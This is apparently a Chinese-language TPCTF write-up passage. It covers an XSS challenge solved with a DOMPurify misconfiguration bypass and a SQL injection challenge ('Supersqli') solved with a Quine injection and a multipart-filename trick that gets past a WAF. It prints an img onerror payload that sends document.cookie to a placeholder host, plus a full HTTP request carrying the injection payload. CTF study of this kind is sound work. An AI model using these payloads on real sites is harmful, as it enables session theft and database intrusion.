



最终payload

```
xxx<style>{{content}}<{{content}}</style>
```

```
img src=1 onerror=fetch('http://ip:8080/?flag='+document.cookie) <style></style>
```



```
TPCTF{AlS0_r3M3M83r_t0_d1SA8l3_daTa_AND_aR1A}
```

## reference

<https://mizu.re/post/exploring-the-dompurify-library-hunting-for-misconfigurations#conclusion>

<https://github.com/Sudistark/CTF-Writeups/blob/main/Flatt-Security-XSS-Challenge/solutions.md>

# Supersqli

## 考点

* Quine注入绕过空表
* uwsgi中间件编码绕过WAF（或者另一种做法go不解析filename的参数导致绕过WAF所在的代理服务器对passweord参数值的检测）

开始尝试了时间盲注，但是经过不断测试确定远程数据库和附件数据库的目标表是空表  
然后想着堆叠注入，但是注入点的raw()只支持单个语句执行，因此也不行  
最后空表是通过Quine注入进行绕过

第一种payload

```
POST /flag/ HTTP/1.1
Host: 1.95.159.113
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="117", "Not;A=Brand";v="8"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: Keep-Alive
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary6uNYuV03fhait8af
Content-Length: 524

------WebKitFormBoundary6uNYuV03fhait8af
Content-Disposition: form-data; name="username"

admin
------WebKitFormBoundary6uNYuV03fhait8af
Content-Disposition: form-data; name="password";filename="111"
Content-Disposition: form-data; name="password";

' union values(1,1,replace(replace('" union values(1,1,replace(replace("B",char(34),char(39)),char(66),"B"))--',char(34),char(39)),char(66),'" union values(1,1,replace(replace("B",char(34),char(39)),char(66),"B"))--'))--
------WebKitFormBoundary6uNYuV03fhait8af--

```




第二种payload（编码绕过，利用uwsgi支持的编码进行绕过）



## flag

```
TPCTF{SQLi_1s_E4sy_13ut_H4rd}
```

## reference

<https://www.freebuf.com/articles/web/288177.html>

<https://www.freebuf.com/articles/network/326312.html>
